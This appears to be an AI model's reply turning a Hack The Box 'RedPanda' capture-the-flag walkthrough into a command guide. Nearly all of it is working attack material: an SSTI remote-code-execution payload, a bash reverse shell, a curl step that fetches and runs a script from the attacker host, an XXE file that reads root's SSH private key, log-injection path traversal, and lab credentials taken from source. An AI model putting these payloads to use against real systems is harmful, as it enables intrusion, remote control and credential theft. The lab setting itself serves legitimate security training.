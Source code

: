 Here’s your **HTB: RedPanda** command and exploitation walkthrough — neatly organized and markdown-ready for your notes 📓🐼:

---

# 🐼 HTB: RedPanda – Command Guide

## 🔍 Recon

### Nmap Full Scan
```bash
nmap -p- --min-rate 10000 10.10.11.170
nmap -p 22,8080 -sCV 10.10.11.170
```

### Add to Hosts File
```bash
echo "10.10.11.170 redpanda.htb" | sudo tee -a /etc/hosts
```

### Feroxbuster for Paths
```bash
feroxbuster -u http://10.10.11.170:8080 -x java,class
```

---

## 🧠 SSTI Foothold

### Fuzz for Banned Characters
```bash
wfuzz -u http://10.10.11.170:8080/search -d name=FUZZ \
-w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt --ss banned
```

### Valid Payload Examples
```text
*{7*7}
@{7*7}
#{7*7}
```

### RCE via SSTI (in search box)
```text
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}
```

---

## 🐚 Reverse Shell (via SSTI)

### Reverse Shell Payload Script (host locally)
```bash
# /var/www/html/shell.sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.6/443 0>&1
```

### Drop the shell
```http
*{T(java.lang.Runtime).getRuntime().exec('curl 10.10.14.6/shell.sh -o /tmp/shell.sh')}
*{T(java.lang.Runtime).getRuntime().exec('bash /tmp/shell.sh')}
```

### Catch Reverse Shell
```bash
nc -lvnp 443
script /dev/null -c bash  # for upgrade
```

---

## 🔐 Enumeration

### Confirm Group for PrivEsc Path
```bash
id
```

### Check Files Owned by `logs` Group
```bash
find / -group logs 2>/dev/null | grep -v -e '^/proc' -e '\.m2' -e '^/tmp/'
```

---

## 🔍 Analyze Applications

### Interesting Paths
```bash
/opt/panda_search/
/opt/credit-score/
/credits/
/opt/panda_search/redpanda.log
```

### Note: Web creds (from source)
```bash
user: woodenk
pass: RedPandazRule
```

---

## ⚙️ Root Shell via XXE Chain

### 1. Create Malicious XML (`0xdf_creds.xml`)
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY foo SYSTEM 'file:///root/.ssh/id_rsa'>
]>
<credits>
  <author>0xdf</author>
  <image>
    <uri>/img/panda.jpg</uri>
    <views>0</views>
    <root>&foo;</root>
  </image>
  <totalviews>1</totalviews>
</credits>
```

### 2. Tag Image with Metadata (JPG Artist Field)
```bash
cp image.jpg 0xdf.jpg
exiftool -Artist="../tmp/0xdf" 0xdf.jpg
```

### 3. Upload Malicious Files to `/tmp/`
```bash
scp 0xdf.jpg 0xdf_creds.xml woodenk@10.10.11.170:/tmp/
```

### 4. Inject Fake Log Line
```bash
echo "412||ip||ua||/../../../../../../tmp/0xdf.jpg" >> /opt/panda_search/redpanda.log
```

### 5. Wait for Cronjob (~2 mins)

### 6. Extract SSH Key from XML
```bash
cat /tmp/0xdf_creds.xml
```

---

## 🗝️ SSH as Root

### Save and Use Key
```bash
chmod 600 ~/keys/redpanda-root
ssh -i ~/keys/redpanda-root root@10.10.11.170
```

---

## 🎓 Beyond Root: Group Discrepancy

### Web Shell (via SSTI)
```bash
id  # groups: logs, woodenk
```

### SSH Login
```bash
id  # groups: woodenk
```

### Reason
- Java web app started as:
  ```bash
  sudo -u woodenk -g logs java -jar ...
  ```
- SSTI shell inherits logs group
- SSH session doesn’t

---

Let me know if you'd like this wrapped into a Markdown file or Notion-friendly version! 🧩